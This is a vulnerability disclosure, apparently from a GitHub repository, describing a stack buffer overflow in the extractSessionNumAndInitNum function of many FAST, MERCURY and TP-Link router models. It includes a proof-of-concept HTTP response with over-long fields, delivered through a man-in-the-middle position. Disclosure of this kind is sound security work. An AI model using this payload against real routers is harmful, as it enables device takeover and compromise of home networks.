

# extractSessionNumAndInitNum Vulnerability Report

FAST,MERCURY and TP-Link routers have a stack overflow issue in `extractSessionNumAndInitNum` function.

Local users could get remote code execution, this vulnerability currently affects three types of routers:

- FW, FAC, FR series of FAST router, including FW325R, FAC1203R, FW326R, FR100P-AC, FAC1900R, FAC1200R, etc ;
- D, M, MW series of MERCURY router, including D121G, MW310R, M6G, MW313R, D12A, MW325R, D196G, MW300R, D12, MW315R, MW351R, D126, M9G, D19, MW326R, MR100P-AC, D12B, etc ;
- WDR, WR, R, WA series of TP-Link router, including TL-WDR5620, TL-WDR5650, TL-WR842N, TL-WDR7660, TL-WDR7620, TL-R470P-AC, TL-WDR7661, TL-WDR7650, TL-WDR7651, TL-WA933RE, etc.

It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability Description

**Threat model**: An attacker can intercept the traffic between router and Intenet. That is, an attacker can perform a man-in-the-middle attack on the router.

This vulnerability happen when `extractSessionNumAndInitNum` handle data from cloud server by using `strncpy`.

1. Attackers intercept the response from cloud server.
2. Then attackers send a malicious response to the router. The data up to the `' '`  and `'\r\n'`  in this malicious response are filled a long string.
3. `extractSessionNumAndInitNum` get these fileds by using `strstr`. However, the length is not checked.
4. Finally, whole string of these fields are copyed to the stack by `strncpy` and lead to a stack buffer overflow to execute arbitrary code.




## PoC

```
HTTP/1.1 200 OK
Content-Type: text/html;charset=UTF-8
Content-Length: 200
Connection: close
Cache-control: no-cache

111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111aaa aaa111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111\r\n
```
